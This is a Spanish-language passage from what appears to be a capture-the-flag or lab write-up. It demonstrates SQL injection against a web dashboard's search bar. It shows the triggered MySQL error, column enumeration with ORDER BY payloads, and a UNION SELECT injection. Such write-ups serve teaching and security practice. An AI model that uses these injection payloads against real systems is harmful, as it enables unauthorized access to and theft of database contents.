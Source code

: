 Si usamos la barra de búsqueda de forma que intentamos generar un error SQL enviando una comilla `'`, veremos el siguiente error

~~~ text
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1 in /var/www/html/dashboard.php:23 Stack trace: #0 /var/www/html/dashboard.php(23): mysqli_query() #1 {main} thrown in /var/www/html/dashboard.php on line 23
~~~

### Number of columns

Estamos de igual forma ocasionando un error de sintaxis al abrir una nueva cadena en la consulta SQL

> Intentaremos hacer una consulta para adivinar la cantidad de columnas que admite la tabla. **Comenzaremos con un número grande para forzar un error e iremos disminuyéndolo hasta que la consulta se ejecute sin errores**
{: .notice--danger}

~~~ sql
' ORDER BY 10-- -
~~~

~~~ text
Fatal error: Uncaught mysqli_sql_exception: Unknown column '10' in 'order clause' in /var/www/html/dashboard.php:23 Stack trace: #0 /var/www/html/dashboard.php(23): mysqli_query() #1 {main} thrown in /var/www/html/dashboard.php on line 23
~~~

Si intentamos ordenar los registros de acuerdo a la quinta columna, sabremos que la tabla posee `5` columnas

~~~ bash
' ORDER BY 5-- -
~~~

Ahora es cuando podemos usar la palabra `UNION` para añadir un registro al resultado de la consulta original, en este caso probaremos con números o valores `NULL`

~~~ sql
' UNION SELECT 1,2,3,4,5-- -
~~~

![image-center](/assets/images/posts/gallery-sqli-1.png)
{: .align-center}
